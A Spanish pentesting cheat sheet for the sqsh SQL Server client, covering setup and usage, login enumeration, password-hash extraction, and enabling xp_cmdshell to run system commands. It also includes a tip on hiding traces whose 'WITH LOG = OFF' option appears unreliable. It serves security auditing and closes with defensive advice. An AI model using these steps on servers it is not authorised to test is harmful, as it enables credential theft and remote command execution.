

# Sqsh - Herramienta de Consola para SQL Server

## Introducción

> [!info] ¿Qué es Sqsh?
> **Sqsh** (pronunciado "skwish") es una herramienta de línea de comandos interactiva para conectarse a bases de datos Microsoft SQL Server y Sybase. Funciona como un reemplazo mejorado de `isql`/`osql` con funcionalidades adicionales como historial de comandos, edición en línea y ejecución por lotes.

Sqsh es especialmente útil en entornos de:
- **Pentesting de bases de datos**
- **Auditorías de seguridad**
- **Análisis forense de SQL Server**
- **Automatización de consultas SQL**

---

## Instalación

### En sistemas Debian/Ubuntu:
```bash
sudo apt update
sudo apt install sqsh freetds-bin freetds-dev
```

### En sistemas basados en Red Hat:
```bash
sudo yum install sqsh freetds
```

> [!tip] Configuración FreeTDS
> Sqsh requiere FreeTDS para conectarse a servidores SQL. Asegúrate de configurar correctamente `/etc/freetds/freetds.conf` con los servidores objetivo.

---

## Sintaxis Básica

### Conectando a un servidor SQL:

```bash
sqsh -S servidor -U usuario -P contraseña -D basededatos
```

### Parámetros principales:

| Parámetro | Descripción | Ejemplo |
|-----------|-------------|---------|
| `-S` | Servidor al que conectarse | `-S 192.168.1.10` |
| `-U` | Nombre de usuario | `-U sa` |
| `-P` | Contraseña | `-P Password123` |
| `-D` | Base de datos inicial | `-D master` |
| `-I` | Archivo de configuración FreeTDS | `-I /etc/freetds.conf` |
| `-m` | Modo de visualización | `-m pretty` |
| `-L` | Timeout de login (segundos) | `-L 60` |
| `-t` | Timeout de consulta (segundos) | `-t 120` |

> [!warning] Seguridad
> Especificar la contraseña con `-P` en la línea de comandos es un riesgo de seguridad ya que puede quedar registrada en el historial. Preferiblemente omitir este parámetro para que sqsh solicite la contraseña de forma interactiva.

---

## Comandos Internos de Sqsh

Una vez dentro de sqsh, puedes utilizar varios comandos precedidos por `\`:

| Comando | Descripción |
|---------|-------------|
| `\go` | Ejecuta la consulta actual |
| `\reset` | Limpia el buffer de consulta actual |
| `\hist` | Muestra el historial de comandos |
| `\buf` | Muestra la consulta actual en el buffer |
| `\ed` | Edita la consulta actual en un editor externo |
| `\exit` | Sale de sqsh |
| `\quit` | Sale de sqsh |
| `\help` | Muestra ayuda sobre comandos internos |

---

## Guía Práctica de Uso

### 1. Conexión básica

```bash
# Conexión interactiva (pedirá contraseña)
sqsh -S 192.168.1.100 -U sa -D master
```

### 2. Ejecución de consultas

```sql
-- Una vez conectado:
SELECT @@version;
GO
```

> [!note]
> En sqsh, las consultas terminan con la palabra `GO` en una línea separada o con el comando `\go`.

### 3. Cambiar formato de salida

```bash
\set style=vert
SELECT name, database_id, create_date FROM sys.databases;
\go
```

### 4. Guardar resultados en un archivo

```bash
\out results.txt
SELECT name, type_desc FROM sys.all_objects WHERE type = 'U';
\go
\out
```

---

## Ejemplos Prácticos para Ciberseguridad

### Ejemplo 1: Enumeración de usuarios y roles

```sql
-- Obtener todos los usuarios y sus roles
SELECT 
    p.name AS [LoginName], 
    p.type_desc AS [LoginType],
    p.create_date,
    CONVERT(VARCHAR(10), 
        CASE WHEN p.is_disabled = 1 
        THEN 'Disabled' 
        ELSE 'Enabled' 
        END) AS [Status]
FROM sys.server_principals p
WHERE p.type_desc IN ('SQL_LOGIN', 'WINDOWS_LOGIN', 'WINDOWS_GROUP')
ORDER BY p.name;
\go
```

> [!example] Explicación
> Este comando enumera todos los logins del servidor SQL, mostrando su nombre, tipo, fecha de creación y estado. Es útil en la fase de reconocimiento para identificar posibles cuentas vulnerables.

### Ejemplo 2: Identificar bases de datos con autenticación mixta (potencialmente vulnerables)

```sql
-- Verificar modo de autenticación
DECLARE @AuthMode INT;
EXEC master.dbo.xp_instance_regread 
    'HKEY_LOCAL_MACHINE',
    'SOFTWARE\Microsoft\MSSQLServer\MSSQLServer', 
    'LoginMode', 
    @AuthMode OUTPUT;

SELECT 
    CASE @AuthMode
        WHEN 1 THEN 'Windows Authentication'
        WHEN 2 THEN 'Mixed Authentication (Vulnerable)'
    END AS 'Authentication Mode';
\go
```

> [!example] Explicación
> Este script determina si el servidor SQL tiene habilitada la autenticación mixta, que permite login con usuario/contraseña y es potencialmente más vulnerable a ataques de fuerza bruta.

### Ejemplo 3: Extracción de hashes de contraseña (en caso de acceso privilegiado)

```sql
-- Extraer hashes de contraseñas (requiere admin)
SELECT name, password_hash 
FROM sys.sql_logins;
\go
```

> [!warning] Uso Ético
> Este comando solo debe usarse en servidores autorizados durante pruebas de penetración legales. Extraer hashes sin autorización puede ser ilegal.

---

## Explotación de Vulnerabilidades con Sqsh

### Detección y explotación de xp_cmdshell

```sql
-- Verificar si xp_cmdshell está habilitado
SELECT name, value, value_in_use 
FROM sys.configurations 
WHERE name = 'xp_cmdshell';
\go

-- Habilitar xp_cmdshell (requiere permisos)
EXEC sp_configure 'show advanced options', 1;
\go
RECONFIGURE;
\go
EXEC sp_configure 'xp_cmdshell', 1;
\go
RECONFIGURE;
\go

-- Ejecutar comando del sistema
EXEC xp_cmdshell 'whoami';
\go
```



> [!tip] Automatización
> Puedes crear scripts de sqsh para automatizar pruebas de vulnerabilidades. Guarda las consultas en un archivo y ejecútalas con: `sqsh -S servidor -U usuario -P contraseña -i script.sql`

---

## Técnicas Avanzadas

### Ejecución remota con pipes para evitar detección

```bash
# Uso de pipes para evitar guardado de credenciales en texto plano
echo "SELECT @@version; GO" | sqsh -S target -U sa -P 'Password123'
```

### Ejecución de consultas desde archivos externos

```bash
sqsh -S 192.168.1.100 -U sa -P 'Password123' -i queries.sql -o results.txt
```

### Configuración de archivo .sqshrc

Crea un archivo `~/.sqshrc` para personalizar sqsh:

```
\set username=pentester
\set style=pretty
\set colsep="|"
\alias ll="\\buf"
```

---

## Consejos y Buenas Prácticas

> [!tip] Tips para pentesting con Sqsh
> - **Automatiza las pruebas**: Crea scripts SQL reutilizables para pruebas comunes.
> - **Evita bloqueos**: Usa transacciones `BEGIN TRANSACTION`/`ROLLBACK` para consultas destructivas.
> - **Oculta tu rastro**: Considera usar `WITH LOG = OFF` en ciertas operaciones para evitar registro.
> - **Protege las credenciales**: Nunca guardes contraseñas en scripts. Usa variables de entorno.

> [!warning] Errores Comunes
> - **Timeout de conexión**: Si ocurren errores de tiempo de espera, aumenta el valor con `-L` y `-t`.
> - **Problemas de autenticación**: Asegúrate que el servidor acepta el tipo de autenticación que intentas usar.
> - **Problemas con GO**: El delimitador `GO` debe estar en una línea por sí solo.

---

## Referencias Adicionales

- [Documentación oficial de Sqsh](http://www.sqsh.org/)
- [Guía FreeTDS](http://www.freetds.org/userguide/)
- [Curso de SQL Injection avanzado](https://portswigger.net/web-security/sql-injection)

> [!info] Herramientas complementarias
> - **sqlmap**: Para pruebas automáticas de SQL Injection
> - **PowerUpSQL**: Framework PowerShell para atacar SQL Server
> - **metasploit**: Módulos específicos para SQL Server

---

## Defensa contra ataques SQL

> [!note] Medidas de Protección
> Como profesional de seguridad, recuerda recomendar:
> - Deshabilitar procedimientos almacenados peligrosos como xp_cmdshell
> - Implementar autenticación de Windows en lugar de mixta
> - Aplicar el principio de mínimo privilegio
> - Auditar regularmente los permisos y accesos